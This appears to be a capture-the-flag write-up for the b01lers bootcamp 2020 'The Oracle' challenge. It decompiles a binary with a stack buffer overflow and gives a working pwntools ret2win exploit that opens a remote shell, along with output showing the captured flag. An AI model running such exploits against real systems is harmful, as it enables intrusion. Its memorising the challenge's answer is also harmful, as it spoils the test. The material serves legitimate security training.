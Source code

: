 # b01lers bootcamp CTF 2020

## The Oracle

> 100
>
> Would you still have broken it if I hadn't said anything?
>
> `nc chal.ctf.b01lers.com 1015`
> 
> [theoracle](theoracle)  
> [theoracle.c](theoracle.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _ret2win_


## Summary

Basic _ret2win_.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_18 [16];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("Know Thyself.");
  fgets(local_18,0x80,stdin);
  return 0;
}

void win(void)
{
  char *local_18;
  char *local_10;
  
  local_10 = (char *)0x0;
  local_18 = (char *)0x0;
  execve("/bin/sh",&local_10,&local_18);
  return;
}
```

> Yes the source is included, but only Ghidra tells me I need to write `0x18` (`local_18`) bytes to get to the return address.

So, `fgets` will _get_ up to `0x80` bytes for a buffer that is `0x18` bytes from the return address on the stack.  With no PIE, setting up a _win_ is easy.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theoracle')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1015)

payload  = 0x18 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter('Know Thyself.\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/the_oracle/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.ctf.b01lers.com on port 1015: Done
[*] Switching to interactive mode
$ id
uid=1000(theoracle) gid=1000(theoracle) groups=1000(theoracle)
$ ls -l
total 36
-r-xr-x--- 1 root theoracle    86 Oct  2 18:33 Makefile
-r--r----- 1 root theoracle    45 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root theoracle 16936 Oct  3 04:09 theoracle
-r-xr-x--- 1 root theoracle   330 Oct  2 18:33 theoracle.c
-r-xr-x--- 1 root theoracle    47 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```
